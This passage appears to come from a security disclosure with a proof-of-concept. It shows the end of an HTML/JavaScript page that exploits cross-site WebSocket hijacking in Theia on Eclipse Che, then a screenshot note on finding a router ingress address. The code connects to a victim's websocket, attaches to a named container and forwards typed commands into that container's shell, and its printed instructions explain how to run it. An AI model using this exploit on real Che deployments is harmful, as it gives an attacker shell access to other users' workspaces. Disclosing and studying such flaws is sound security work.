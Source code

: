 ```html
	con.addEventListener('keypress', (e) => {
		if (e.key == 'Enter') {
			let input = con.value.split(' ');
			switch (input[0]) {
				case "/connect": {
					output(`connecting to ${input[1]}..`);
					delete server.container; // reset container selection.
					connect(input[1]);
				}
				break;
				case "/attach": {
					output(`attaching to ${input[1]}..`);
					server.container = input[1];
					attach(server);
				}
				break;
				default: {
					if (wsAttach) {
						wsAttach.send(`${con.value}\n`);
					} else {
						output('not connected, please /connect and /attach first.');
					}
				}
			}
			con.value = '';
		}
	});
	con.focus();

	output(`1) login to a CHE instance on https://che.openshift.io/ and note the domain of the websocket.\n
		    2) type "/connect [domain]" to exploit cross-site WebSocket hijacking in Theia.\n
			3) type "/attach [container]" to attach the shell of the given container.\n`);
	output(`example domain format routecoobb1ln-codingchili-che.b542.starter-us-east-2a.openshiftapps.com`);
	</script>
</body>
</html>
```

# Screenshots

## Proof-of-Concept setup

![](./screenshots/router_ingress_address.PNG)
Retrieving the ingress address of the router for the proof-of-concept. (An attacker would do this through MITM or another means of discovering the router ingress address).